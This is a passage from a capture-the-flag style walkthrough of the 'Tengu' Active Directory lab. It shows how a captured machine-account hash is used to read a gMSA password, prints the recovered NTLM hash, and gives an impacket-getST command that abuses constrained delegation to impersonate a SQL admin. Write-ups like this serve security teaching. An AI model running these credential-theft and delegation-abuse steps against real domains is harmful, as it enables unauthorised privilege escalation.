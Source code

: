 and GMSA01$ AllowedToDelegate => SQL.TENGU.VL, SQL_ADMINS group

![](<tengu(chain)(medium)/walkthrough_20240414153529273.png>)

![](<tengu(chain)(medium)/walkthrough_20240414154625423.png>)

since we have `nodered$` (linux_server) ntlm hash, we can abuse those relationship

use crackmapexec ldap to read GMSA01 gmsaPassword

`GMSA01$:bd1811a45423dcdd470df09ed1621b97`

![](<tengu(chain)(medium)/walkthrough_20240414154442826.png>)

## abuse KCD

since the GMSA01 AllowedToDelegate sql_admins group, we can impersonate a user from sql_admins group.

![](<tengu(chain)(medium)/walkthrough_20240414163739843.png>)

```
zds impacket-getST -spn 'MSSQLSvc/SQL.tengu.vl:1433' -dc-ip dc.tengu.vl -impersonate 'T1_C.FOWLER' -hashes :bd1811a45423dcdd470df09ed1621b97 'tengu.vl/gmsa01'
```

the error which mean the account was sensitive for delegation, or a member of the "Protected Users" group.

